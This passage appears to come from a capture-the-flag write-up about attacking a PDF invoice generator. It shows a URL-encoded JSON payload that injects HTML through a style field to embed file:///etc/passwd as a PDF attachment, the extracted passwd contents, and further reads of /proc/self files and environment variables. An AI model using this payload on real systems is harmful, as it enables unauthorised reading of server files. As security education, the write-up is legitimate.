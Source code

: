 ```
URL ENCODED:
%7B%0D%0A++%22companyName%22%3A+%22Hackerone%22%2C%0D%0A++%22email%22%3A+%22administrator%40hackerone.com%22%2C%0D%0A++%22invoiceNumber%22%3A+%221337%22%2C%0D%0A++%22date%22%3A+%221337-1337-01%22%2C%0D%0A++%22items%22%3A+%5B%0D%0A++++%5B%0D%0A++++++%221%22%2C%0D%0A++++++%22%22%2C%0D%0A++++++%22%22%2C%0D%0A++++++%2210%22%0D%0A++++%5D%0D%0A++%5D%2C%0D%0A++%22styles%22%3A+%7B%0D%0A++++%22body%22%3A+%7B%0D%0A++++++%22background-color%22%3A+%22white%22%2C%0D%0A++++++%22%3Cscript%2Fstyle%3E%3Ca+rel%3D%27attachment%27+href%3D%27file%3A%2F%2F%2Fetc%2Fpasswd%27%3Efile%3Cscript%2Fa%3E%3Cstyle%3E%2A%7Bbackground-image%22%3A+%22url%28%27%27%29%22%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D
```

and using `pdfdetach` to extract the embeded file from the PDF.

```
➜  dump pdfdetach -saveall etcpasswd.pdf
➜  dump cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
nginx:x:101:102:nginx user,,,:/nonexistent:/bin/false
messagebus:x:102:103::/var/run/dbus:/bin/false
➜  dump
```

we able to read the filesystem, now the problem is to read source code of the application, after a while i found that able to read from `/proc/` path so i embed `/proc/self/cmdline` and i found the command used to run the program with the parameter is `/usr/local/bin/uwsgi --ini /etc/uwsgi/uwsgi.ini`  try to read `
/etc/uwsgi/uwsgi.ini` to find the application path without any luck.

and after i check the environment here  `/proc/self/environment`  i found there is another configuration file `/app/uwsgi.ini` 

```
NGINX_WORKER_PROCESSES=1
UWSGI_CHEAPER=2
NGINX_MAX_UPLOAD=0
SUPERVISOR_GROUP_NAME=uwsgi
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOME=/root
UWSGI_PROCESSES=16
LANG=C.UTF-8
SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock
PYTHON_VERSION=3.7.2
SHLVL=0
PYTHON_PIP_VERSION=19.0.1
SUPERVISOR_ENABLED=1
NJS_VERSION=1.15.8.0.2.7-1~stretch
UWSGI_INI=/app/uwsgi.ini
NGINX_VERSION=1.15.8-1~stretch
STATIC_PATH=/app/static
```